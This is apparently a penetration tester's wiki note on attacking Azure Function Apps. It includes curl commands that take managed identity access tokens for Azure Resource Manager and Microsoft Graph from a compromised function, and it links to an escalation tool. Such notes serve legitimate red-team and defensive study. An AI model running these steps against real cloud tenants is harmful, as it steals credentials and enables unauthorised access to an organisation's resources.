 ```yaml
---
title: Function
---
```


[[notes/azure/index]] Functions are comparable to AWS Lambdas and can react to HTTP requests or are triggered by a schedule (like a cron job).

Gain code execution trough classic web vulnerabilities like insecure file upload or take control over the source code repository.
The function can have a managed identity assigned that might have interesting permissions on other Azure resources.

Use code execution in an exploited function to check if it has a managed identity assigned and retrieve access tokens for ARM and MS Graph.

~~~ bash
env | grep IDENTITY
curl -sSf $IDENTITY_ENDPOINT -H "X-IDENTITY-HEADER: $IDENTITY_HEADER" -G -d api-version=2019-08-01 -d resource=https://management.azure.com
curl -sSf $IDENTITY_ENDPOINT -H "X-IDENTITY-HEADER: $IDENTITY_HEADER" -G -d api-version=2019-08-01 -d resource=https://graph.microsoft.com
~~~

With this access tokens you can enumerate [[notes/azure/index]] resources and [[notes/m365/index]] access.

Untested tools:

- [FuncoPop](https://github.com/NetSPI/FuncoPop), escalate from Storage Account access to Function App

References:

- [What the Function: Decrypting Azure Function App Keys](http://web.archive.org/web/20230813051005/https://www.netspi.com/blog/technical/cloud-penetration-testing/what-the-function-decrypting-azure-function-app-keys/)
- [Managed Identity Attack Paths, Part 3: Function Apps](http://web.archive.org/web/20231028211557/https://scribe.rip/@specterops/managed-identity-attack-paths-part-3-function-apps-300065251cbe)
